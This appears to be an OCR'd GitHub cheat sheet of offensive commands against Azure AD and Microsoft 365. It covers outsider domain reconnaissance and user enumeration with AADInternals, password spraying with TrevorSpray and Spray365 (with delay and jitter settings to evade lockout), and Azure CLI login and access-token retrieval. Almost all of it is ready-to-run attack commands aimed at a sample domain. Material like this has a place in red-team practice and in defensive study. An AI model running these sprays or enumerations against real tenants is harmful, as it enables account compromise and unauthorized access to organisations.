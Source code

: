 # External Enumeration
## AADIntReconAsOutsider
```powershell
Invoke-AADIntReconAsOutsider -DomainName hitbox.com | Format-Table
Get-Content .\Users.txt | Invoke-AADIntUserEnumerationAsOutsider -UserName
```

# Password Spray
## TrevorSpray
### Perform Recon
```cmd
trevorspray --recon target.com
```
### Perform Spray Against Users
```cmd
treverspray -u emails.txt -p 'Spring2020'
``` 
### Jitter Random Deviation of delay between requests
```cmd
trevorspray -u emails.txt -p 'Spring2020' -delay 60 -jitter 20 -lockout-delay 60
```
## Spray365
### Generate an execution plan
```cmd
python3 spray365.py generate --ep plan.365 -d <target.com> -u users.txt -p Spring2022
```
### Generate an execution plan - random user agent - delay 15s between requests
```cmd
python3 spray365.py generate --ep plan2.365 -d <target.com> -u users.txt -p Spring2022 -rUA -delay 15
```
### execute Plan
```cmd
python3 spray365.py spray --ep plan.365 <path_to_plan>
```

# Azure CLI
## login
```cmd
az login
```
## login - Submit Code flow credentials directly
```cmd
az login -u <user> -p <pass>
```
## Login - Get access token
```cmd
az account get-access-token
```
## login - Leveraged Identity
```cmd
az --i
```
## login - Use Device Code Flow
```cmd
az --device-code
```
## VMs
```cmd
az vm list -o table
```

## AADInternals
### Import AADInternals
```PowerShell
Import-Module AADInternals
```
### Domain Reconnaissance
```PowerShell
Invoke-AADIntReconAsOutsider -DomainName hitbox.com | format-table
```
### Domain User Enumeration
```PowerShell
Invoke-AADIntUserEnumerationAsOutsider -UserName "apark@hitbox.com"
```
### Domain User Enumeration - Logon Method
```PowerShell
Invoke-AADIntUserEnumerationAsOutsider -UserName "apark@hitbox.com" -method [normal,login,autologon]
```
### Domain User Enumeration - From List
```PowerShell
Get-Content C:/Recon/Users.txt | Invoke-AADIntUserEnumerationAsOutsider
```
### Password Spray with Spray365
```bash
spray365.py generate -d hitbox.com -u /tmp/users.txt -pf /tmp/passwords.txt --delay 2 -eID <endpoint> -cID <client ID> -ep hitbox.365
spray365.py spray -epp hitbox.365